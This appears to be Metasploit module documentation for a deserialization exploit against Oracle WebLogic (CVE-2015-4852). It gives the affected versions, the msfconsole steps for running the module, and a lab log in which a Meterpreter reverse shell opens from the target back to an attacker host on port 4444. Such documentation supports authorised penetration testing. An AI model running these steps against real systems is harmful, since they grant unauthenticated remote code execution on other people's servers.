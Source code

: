 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerable (CVE 2015-4852), which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.
## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0.
## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_rawobject`
 3. `set rhosts <rhost>`
 4. `set rport <srvport>`
 6. `exploit`
## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_rawobject) > exploit

 [*] Started reverse TCP handler on 192.168.192.136:4444 
 [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 7 opened (192.168.192.136:4444 -> 192.168.192.6:49266) at 2018-12-14 11:40:29 -0800
 
 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows
 ```
